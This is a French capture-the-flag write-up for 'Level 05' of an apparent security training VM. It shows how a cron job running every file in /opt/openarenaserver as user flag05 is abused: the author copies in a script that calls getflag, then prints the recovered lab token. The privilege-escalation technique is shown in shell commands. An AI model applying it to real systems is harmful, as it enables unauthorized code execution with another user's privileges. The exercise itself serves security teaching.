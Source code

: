 # Level 05

Cette fois ci, il n'existe aucun fichier dans le home de l'utilisateur `level05`, par reflex nous avons exécuté la commande magique `find`

```shell
~ find / -name level05 2> /tmp/error
/var/mail/level05
/rofs/var/mail/level05
```

Level 05 à donc reçu un mail.

```shell
~ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le contenu du mail est une `crontab` qui execute avec les privilèges de `flag05` la commande `sh /usr/sbin/openarenaserver` toutes les 2 minutes.

On s'est demandée ce que fessait `/usr/sbin/openarenaserver`, selon sa façon d'être exécuter c'est un script `shell`, on doit pouvoir le cat

```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le script récupère donc tous les fichiers dans `/opt/openarenaserver` et les executes avec `bash`, puis les supprimes

Nous avons donc `scp` un script bash qui appel la commande `getflag` et redirige la sortie dans un fichier dans `/tmp`

```shell
~ scp -P 4242 script level05@192.168.56.101:/opt/openarenaserver
level05@192.168.56.101's password:
script                                          100%   37    28.7KB/s   00:00
~ chmod 777 /opt/openarenaserver/script
~ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
~ su level06
Password:
```

